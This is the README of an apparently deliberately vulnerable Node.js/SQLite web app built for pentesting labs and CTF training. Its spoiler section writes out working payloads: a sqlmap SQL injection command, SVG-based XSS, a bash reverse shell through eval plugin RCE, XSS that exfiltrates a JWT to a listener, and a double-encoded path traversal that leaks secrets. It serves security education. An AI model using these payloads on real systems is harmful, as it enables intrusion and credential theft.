 # GameVerse V2

GameVerse2 is a deliberately vulnerable web application built with Node.js and SQLite.  
It’s designed for pentesting labs, security education, and CTF-style training.

Frontend more or less vibe-coded, enjoy the looks :)
Feel free to use for whatever reason

> Do not deploy this server to a production or public environment.

![GameVerse logo](pic.png)

---

## Features

- User authentication with JWT
- SQLite database
- File upload
- Basic forum / comment system
- Deliberately insecure code for hands-on security training

---

## Getting Started

### 1. Clone the repository

```bash
git clone https://github.com/ettelman/gameverse2eng.git
cd gameverse2eng
```

---

### 2. Start with Node.js

> Make sure you have Node.js 18+ and npm installed.

#### Install dependencies:

```bash
npm install
```

#### Start the server:

```bash
node server.js
```

The server will run on [http://localhost:3333](http://localhost:3333)

---

![alt text](captura-2025-06-03-1748961130.png)

### 2.1 Start with Docker

> Recommended for clean lab environments

#### Build the image:

```bash
docker build -t gameverse2 .
```

#### Start the container (with database persistence):

```bash
docker run -p 3333:3333 -v $(pwd)/gameverse.db:/home/appuser/app/gameverse.db gameverse2
```

---

## Ports

- Default HTTP port: **3333**

---

<details>
  <summary>🕵️ <strong>Vulnerabilities (spoilers!)</strong></summary>

### SQLi in `/users`
Example with sqlmap:
```bash
sqlmap -u "10.3.10.182:3333/users/?q=*" --headers="Authorization: Bearer <JWT>" --tables --risk 3 --level 5
```

---

### Plaintext passwords in the database

---

### XSS via avatar URL (using `<object>`)
Create SVG (POC):
```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(1)</script>
</svg>
```
Embed the SVG like this when you send a message to another user:
```html
<object data="uploaded.svg" type="image/svg+xml"></object>
```

---

### Eval-based plugin RCE for admins
Create a .js file and upload it as an avatar with:
```js
require('child_process').exec('bash -c "bash -i >& /dev/tcp/localhost/4444 0>&1"');
```
Then access it with path traversal in the admin plugin system

---

### JWT exfiltration via XSS
Post the following in the forum section (example):
```xml
<svg>
  <animate onend="new Image().src='//localhost:4444/jwt?d='+encodeURIComponent(localStorage.getItem('jwtToken'))" dur="1s" attributeName="x"/>
```
Then catch the the token with nc -lvnp 4444

---

### LFI in `/images`
```plaintext
/images?path=%252e%252e%252fconfig%252fdev%252f.env
```
(Double URL-encode – `../config/dev/.env`)
This leaks the JWT secret from the .env
</details>